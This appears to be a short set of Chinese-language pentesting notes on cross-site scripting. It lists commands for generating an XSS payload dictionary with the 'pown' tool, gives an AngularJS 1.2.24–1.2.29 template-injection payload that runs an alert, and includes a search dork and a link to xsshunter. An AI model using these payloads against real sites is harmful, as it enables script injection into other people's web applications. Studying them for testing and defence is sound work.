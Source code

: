 # XSS

## 2021.2.13 Fuzz技巧

![image-20210213152848214](XSS.assets/image-20210213152848214.png)

非常不错,包含了xml和xss的许多payload

```
npm install -g pown
pown modules install @pown/dicts
pown dicts -p xss >  xss.doc
ls -lah xss.doc
```







## Bypass

![5934BE93A312FA7C13363F1A4C187775](XSS.assets/5934BE93A312FA7C13363F1A4C187775.png)



## 挖掘XSS技巧

### 组件漏洞

an AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29

Payload:

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```



## Dorks

```
1.iconUrl=XSS
```





## XSS相关的网站

比较安全:`https://xsshunter.com/`